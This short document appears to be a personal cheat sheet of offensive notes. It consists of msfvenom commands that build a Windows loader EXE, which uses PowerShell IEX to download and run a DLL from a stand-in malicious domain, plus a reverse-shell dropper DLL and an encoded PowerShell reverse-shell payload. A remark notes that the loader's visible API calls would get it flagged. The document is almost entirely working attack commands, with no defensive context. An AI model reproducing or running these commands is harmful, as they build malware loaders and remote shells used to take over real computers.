

Loader
msfvenom -p windows/exec -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('http://sub.maliciousDomain.com:9090/test.dll')\"" -f exe -o PSInjectLoader.exe
Dropper
msfvenom -p windows/shell/reverse_tcp LHOST= sub.sub.maliciousDomain.com LPORT=5656 -f dll -o maliciousDLL.dll
server host for > exe
allternate host for > dll
EXE will call for dll and inject
- The code seen here is a basic DLL loader, this would be flagged due to visible API calls

=============================================================================================================
mv
msfvenom -p windows/powershell_reverse_tcp LHOST=192.168.0.119 LPORT=5656 -f raw -b "\x00" -e mipsle/longxor -i 3 -o poc.bin